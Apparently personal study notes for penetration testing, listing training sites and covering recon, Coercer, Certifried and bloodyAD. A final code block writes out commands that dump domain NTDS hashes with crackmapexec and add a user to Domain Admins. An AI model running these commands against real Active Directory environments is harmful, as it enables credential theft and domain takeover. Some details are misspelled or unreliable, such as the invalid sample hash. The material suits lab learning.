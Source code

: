 # Learning Resources for Cybersecurity  

- Understanding wildcards: <https://hackingpassion.com/wildcards-understanding-and-using-for-hacking/>
- TryHackMe  
- HackTheBox  
- Over The Wire  
- https://taggartinstitute.org/  
- PentesterLab  


## Random Notes  




### Recon  
recon: Go to linked and see what technologies they're using  
What tooling do they use? What's exposed to internet?  

Footprinting:  
```bash  
curl -I hostname.com/:port  
```
ningx/1.25.2, now I just have to look for vulns in nginx 1.25.X  

---  

### Diamond Model of Intrusion Analysis  
https://www.activeresponse.org/wp-content/uploads/2013/07/diamond.pdf  
* When looking for XSS also look for SSTI or CSTI  

---  

* As a blue teamer, you should run Blood Hound regularly and analyze its output.  
* As a red teamer, your job is not to fix the vulnerabilities. Your job is to report  
  the vulnerabilities to the client. It is their decision to make about how to reconfigure their  
  environment.  

---  

### Escalation Paths (esc)  
`ESC<number>` : escalation paths  

---  

### Coercer  
[coercer.py](https://github.com/p0dalirius/Coercer)  
A python script to automatically coerce a Windows server 
to authenticate on an arbitrary machine through many methods.  

---  

### Certifried: Active Directory Domain Privelege Escalation  
Actice Directory Certificate Services  
Present certificate to access to direcory  
It takes the cert and checks if it corresponds to an active directory object.  

---  

### bloodyAD  
```bash  
bloodyAD -h 
bloodyAD -d 'domain.name' -u 'users.name' -p 'passwordgoeshere' \
--host 10.10.10.2 get children --target 'Domain Admins'  

# When windows stores a password, it stores NTLM hashes,
# and they all will have the same LandMan hash NTDS hashes.  
# LandMan hashes are not stored anymore.  
# For legacy purposes they still have an entry in there.  
# The second hash from cme smb will be the second hash separated by the colon.  
# You can just use a colon and the NT hash ( :B0B4D2498249AO54UJ9D06E )  
cme smb 10.10.10.2 -u 'users.name' -p 'seek' --ntds --user robert.almstead  

bloodyAD -d "mydomain.local" -u 'users.name' -p 'passwordgoeshere' \
--host 10.10.10.2 get membership ''  

bloodyAD -d "mydomain.local" -u 'users.name' -p 'passwordgoeshere' \
--host 10.10.10.2 add groupMember 'Domain Admins' 'robert.olmstead'  

bloodyAD -d "mydomain.local" -u 'users.name' -p 'passwordgoeshere' \
--host 10.10.10.2 remove groupMember 'Domain Admins' 'users.name'  
```

---  


